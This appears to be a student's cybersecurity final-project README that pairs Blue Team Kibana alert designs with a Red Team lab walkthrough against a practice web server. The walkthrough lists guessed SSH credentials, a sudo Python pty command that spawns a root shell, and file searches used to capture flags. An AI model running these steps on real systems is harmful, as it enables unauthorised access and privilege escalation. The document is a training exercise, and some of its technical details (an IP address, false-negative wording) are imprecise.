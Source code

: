 # Final-Project
This is a private github repository meant to submit all of my findings and answers to the activities related to the Final Project.

# Blue Team: Summary of Operations

## Table of Contents
- Network Topology
- Description of Targets
- Monitoring the Targets
- Patterns of Traffic & Behavior
- Suggestions for Going Further

### Network Topology

The following machines were identified on the network:
- TARGET1
  - **Operating System**: Linux
  - **Purpose**: Runs Apache webserver 
  - **IP Address**:192.168.1.110
- TARGET2
  - **Operating System**: Linux
  - **Purpose**: Runs Apache webserver
  - **IP Address**:192.168.1.115
- Kali
  - **Operating System**: Linux
  - **Purpose**: Attacking Machine
  - **IP Address**: 192.168.1.90
- Capstone
  - **Operating System**: Linux
  - **Purpose**: Runs Apache webserver
  - **IP Address**: 192.168.1.105
- ELK
  - **Operating System**: Linux
  - **Purpose**: Runs Elasticsearch on the target machines.
  - **IP Address**: 19.168.1.100

### Description of Targets

The target of this attack was: `Target 1` 192.168.1.110.

Target 1 is an Apache web server and has SSH enabled, so ports 80 and 22 are possible ports of entry for attackers. As such, the following alerts have been implemented:
- **Excessive HTTP Errors**: WHEN count() GROUPED OVER top 5 'http.response.status_code' IS ABOVE 400 FOR THE LAST 5 minutes
- **HTTP Request Size Monitor**: WHEN sum() of http.request.bytes OVER all documents IS ABOVE 3500 FOR THE LAST 1 minute
- **CPU Usage Monitor**: WHEN max() OF system.process.cpu.total.pct OVER all documents IS ABOVE 0.5 FOR THE LAST 5 minutes

### Monitoring the Targets

Traffic to these services should be carefully monitored. To this end, we have implemented the alerts below:

#### Excessive HTTP Errors


Excessive HTTP Errors is implemented as follows:
  - **Metric**: Number of HTTP error codes (400 and up).
  - **Threshold**: Anything number of attempts that resulted in a 400 error code or above.
  - **Vulnerability Mitigated**: Brute Force Vulnerabilities could be mitigated with this alert. Any excessive amount of failed logins could clearly be brute force attempts into the network.
  - **Reliability**: This could cause some false negatives due to the error being set to trigger even one bad login attempt. However, it could prove valuable in monitoring overall failed attempts therefor making it difficult for successful brute force logins later on. I would rate this as medium reliability due to the sheer number of false alarms that would be created, however, it also does its job flawlessly in regards to alerting everytime a bad login is made, and in the process alerting for potential threat actor activity.

#### HTTP Request Size Monitor
HTTP Request Size Monitor is implemented as follows:
  - **Metric**: The amount of HTTP requests in a set amount of time.
  - **Threshold**: Anything above 3500 events in the last 1 minute would trigger the alert
  - **Vulnerability Mitigated**: If there was a significant number of traffic that is directed towards a specific file on the webserver, that would alert the blue team of a potential malicious threat actor snooping around our file system trying to access confidential data.
  - **Reliability**: TODO: This could show a lot of false negatives if it just so happens to be a busy weekend and there is a lot of traffic flowing in and out of the webserver. However, on a regular basis, this would be reliable in that if there is an absurd amount of traffic being picked up by our web server at an unusual time especially, that tells me that something suspicious is likely occuring. I would rate this as highly reliable.

#### CPU Usage Monitor
CPU Usage Monitor is implemented as follows:
  - **Metric**: CPU percentage use 
  - **Threshold**: Anything over .5% cpu being used on any file in the last 5 minutes.
  - **Vulnerability Mitigated**: This mitigates any issues with an excess amount of traffic or data flowing into a file which could prevent possible threat actors from tampering with files without getting caught.
  - **Reliability**: TODO: Normally I wouldn't expect file access and tampering to use up much CPU so I would rate this about medium reliability, this is because if something that is going to cause a significant amount of trouble is happening in our file system, I would expect higher CPU use than average. Only reason it isn't highly reliable is because sometimes hardware can effect how much CPU is being used, so if that hardware is outdated, it could potentially give you false negatives.



# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

![Command Output](https://github.com/Zatoid/Final-Project/blob/main/screenshots/nmap_scan_against_target_vm.PNG)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 SSH
  - Port 80 HTTP


The following vulnerabilities were identified on each target:
- Target 1
  - Wordpress vulnerability in which we input a wordpress command against the web server IP and enumerated the user info as well as their credentials.
  - Weak account credentials. We were able to easily guess Michaels account password which was just his name. Steven's password only took a few minutes to crack with John the Ripper.
  - Privilege escalation using a python script. This one I was able to find a CVE code on which is CVE-2006-0151. It has no official severity rating on nist.gov, however I would rate this as very severe. Escalating to root is the holy grail of all cyber attacks and to be able to do that from a user level with a simple python script is concerning.

![vulnerability scan 1](https://github.com/Zatoid/Final-Project/blob/main/screenshots/vuln_scan_1.PNG)
![vulnerability scan 2](https://github.com/Zatoid/Final-Project/blob/main/screenshots/vuln_scan_2.PNG)


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - **Exploits**:
        - Brute forcing weak password credentials
        - Reading confidential files
      - **Commands**:
        - ssh michael@192.168.1.110 password: michael
        - cat /var/www/html/service.html

![flag 1](https://github.com/Zatoid/Final-Project/blob/main/screenshots/flag_1.PNG)

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - **Exploits**
        - Brute forcing weak password credentials
        - Reading confidential file
      - **Commands**
        - ssh michael@192.168.1.110 password: michael
        - cat /var/www/flag2.txt

![flag 2](https://github.com/Zatoid/Final-Project/blob/main/screenshots/flag_2.PNG)

  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - **Exploits**
        - Wordpress access due credentials being displayed in a publically accessible file.
      - **Commands**
        - Select * FROM wp_posts;

![flag 3](https://github.com/Zatoid/Final-Project/blob/main/screenshots/flag_3_and_4.PNG)

  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - **Exploits**
        - Weak credentials
        - Wordpress access
      - **Commands**
        - ssh steven@192.168.1.110 password: pink84
        - sudo python -c 'import pty;pty.spawn("/bin/bash")'
        - cd /
        - find -iname *flag*
        - cat flag4.txt

![flag 4](https://github.com/Zatoid/Final-Project/blob/main/screenshots/flag_4.PNG)
